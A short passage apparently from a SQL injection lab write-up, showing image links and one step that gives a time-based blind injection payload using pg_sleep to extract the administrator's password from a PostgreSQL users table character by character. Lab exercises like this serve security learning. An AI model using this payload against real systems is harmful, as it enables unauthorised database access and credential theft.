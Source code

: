 ![image](./Attachments/SQL-Lab14-4.png)
![image](./Attachments/SQL-Lab14-5.png)

4. Payload: `'||(SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--`
![image](./Attachments/SQL-Lab14-6.png)
